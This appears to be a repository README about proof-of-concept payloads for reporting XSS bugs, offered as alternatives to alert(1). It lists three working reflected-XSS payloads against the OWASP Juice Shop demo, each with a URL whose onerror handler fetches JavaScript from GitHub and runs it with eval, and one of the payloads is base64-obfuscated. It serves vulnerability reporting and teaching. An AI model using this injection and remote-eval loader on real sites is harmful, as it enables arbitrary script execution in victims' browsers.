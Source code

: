 # Simple Proof of Concept (PoC)

<p align="justify">This chapter covers an important topic, related to confirming the existence and exploitability of an XSS vulnerability - providing a simple technical Proof of Concept (PoC).</p>

<p align="justify">For this purpose, for a long time across the technical IT security industry, <b><code>alert(1)</code></b> has been used, almost exclusively. As already <b>explained by LiveOverflow [1]</b> in detail, this is a <b>bad practice</b> and <b>should be avoided</b>.</p>

<p align="justify">The payloads documented here provide ready-to-use alternatives, all of which address the mentioned issue.</p>

* **NOTE**: this is not an exhaustive list - further options of modifying the payload exist
    * the payloads listed here serve the purpose of providing a proven fast and simple PoC for reporting XSS vulnerabilities (e.g. via Bug Bounty platforms)
        * any additional impact is to be demonstrated via additional PoC(s) (i.e. these one serve only as a quick check that the vulnerability exists on the affected web application - to pass initial triage)
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
            * if required, deal with Content Security Policy (CSP; not covered here)
    * list may be updated with additional different variants

## `simpleStd.js` - round brackets; quote; space; backslash

```
alert('DOMAIN: '.concat(document.domain).concat('\nORIGIN: ').concat(window.origin));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleDec.js` - round brackets
```
alert(String.fromCharCode(68,79,77,65,73,78,58,32).concat(document.domain).concat(String.fromCharCode(10,79,82,73,71,73,78,58,32)).concat(window.origin));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleDec.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleB64.js` - round brackets, quote, `eval()`
```
eval(atob('YWxlcnQoJ0RPTUFJTjogJy5jb25jYXQoZG9jdW1lbnQuZG9tYWluKS5jb25jYXQoJ1xuT1JJR0lOOiAnKS5jb25jYXQod2luZG93Lm9yaWdpbikpOwo='));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleB64.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## References

* [https://liveoverflow.com/do-not-use-alert-1-in-xss/](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
